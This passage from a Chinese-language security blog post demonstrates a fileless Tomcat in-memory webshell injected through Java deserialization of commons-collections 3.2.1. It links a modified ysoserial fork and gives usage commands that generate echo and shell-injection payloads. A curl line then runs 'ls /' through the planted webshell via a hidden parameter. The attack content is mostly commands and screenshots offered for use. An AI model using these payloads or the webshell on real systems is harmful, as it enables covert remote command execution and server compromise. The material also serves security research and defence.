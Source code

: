 就生成了CommonsCollections11ForTomcatShellInject的payload了

0x03 测试
---------

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![](resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId27.png)

![](resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId28.png)

可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![](resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId29.png)

![](resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId30.png)

完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看
[ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
>
> 例：

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatEchoInject > echo.payload

> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatShellInject > shell.payload

> 使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令

    curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/

参考链接
--------

> https://xz.aliyun.com/t/7388\#toc-3
